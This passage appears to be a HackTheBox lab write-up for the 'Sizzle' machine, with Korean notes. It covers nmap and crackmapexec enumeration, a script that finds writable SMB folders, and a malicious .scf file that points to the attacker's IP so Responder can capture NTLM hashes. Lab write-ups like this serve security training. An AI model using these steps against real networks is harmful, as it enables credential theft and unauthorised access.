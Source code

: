 ```yaml
---
layout: post
title: HackTheBox Sizzle
subtitle: Machine Sizzle Exam WriteUp
author: g3rm
categories: HTB
banner:
  image: /assets/images/banners/home.gif
  opacity: 0.618
  background: "#000"
  heading_style: "font-size: 4.25em; font-weight: bold;"
  subheading_style: "color: gold"
tags:
  - HTB
  - WriteUp
  - OSCP
  - AD
sidebar:
---
```

## Summary
![](assets/images/posts/2025-03-08-Sizzle/c85a008bf6289891ddee6fd8f83bd01d_MD5.jpeg)
## Target - 10.x.x.x
### Open Port
```bash
nmap -sC -sV -Pn -p- -oN Sizzle_allport 10.129.166.251
```
![](/assets/images/posts/2025-03-08-Sizzle/91a4fe3520641d350d9cd2c17fa526c3_MD5.jpeg)

### SMB Attack
```bash
crackmapexec smb 10.129.166.251 -u 'guest' -p '' --shares

# smb folder mount
mount -t cifs -o rw,username=guest,password= '//10.129.166.251/Department Shares' ./mnt
sudo ./writable.sh

sudo cp hack.scf /home/g3rrrm/Sizzle/mnt/Users/Public
sudo cp hack.scf /home/g3rrrm/Sizzle/mnt/ZZ_ARCHIVE

responder -I tun0
```

```sh
# writable.sh
#!/bin/bash
list=$(find /home/g3rrrm/Sizzle/mnt -type d)
for d in $list
do
	touch $d/x 2>/dev/null
	if [ $? -eq 0 ]
	then
		echo $d " is writable"
	fi
done
```
```bash
# hack.scf
[Shell]
Command=2
IconFile=\\10.10.14.3\share\pwn.ico
[Taskbar]
Command=ToggleDesktop
```
![](assets/images/posts/2025-03-08-Sizzle/feb90a37281f6081119d064d6c0c300d_MD5.jpeg)
![](assets/images/posts/2025-03-08-Sizzle/16672031a8f50e465559f4f7dbdf0a21_MD5.jpeg)
![](assets/images/posts/2025-03-08-Sizzle/fc82eacd35aec5676eb07300e6cd4b3c_MD5.jpeg)
![](assets/images/posts/2025-03-08-Sizzle/89969ad0325ec9c49a8363e96f6e8973_MD5.jpeg)


### 정리
```
Domain : HTB.LOCAL
DNS : sizzle.HTB.LOCAL

21 FTP
Anonymous FTP login allowed

80, 443 WEB
일단 별거 없어 보임

464
kpasswd Kerberos 암호화 키 변환 서비스

636, 3268, 3269 LDAP

```

```
smb guest enum
crackmapexec smb 10.129.166.251 -u 'guest' -p '' --rid-brute

SIZZLE$
DnsAdmins
DnsUpdateProxy
amanda
mrlky
sizzler

SMB         10.129.166.251  445    SIZZLE           [+] HTB.LOCAL\DnsAdmins:123456 
SMB         10.129.166.251  445    SIZZLE           [+] HTB.LOCAL\DnsUpdateProxy:123456

sudo mount -t cifs -o rw,username=guest,password= '//10.129.166.251/Department Shares' ./mnt
```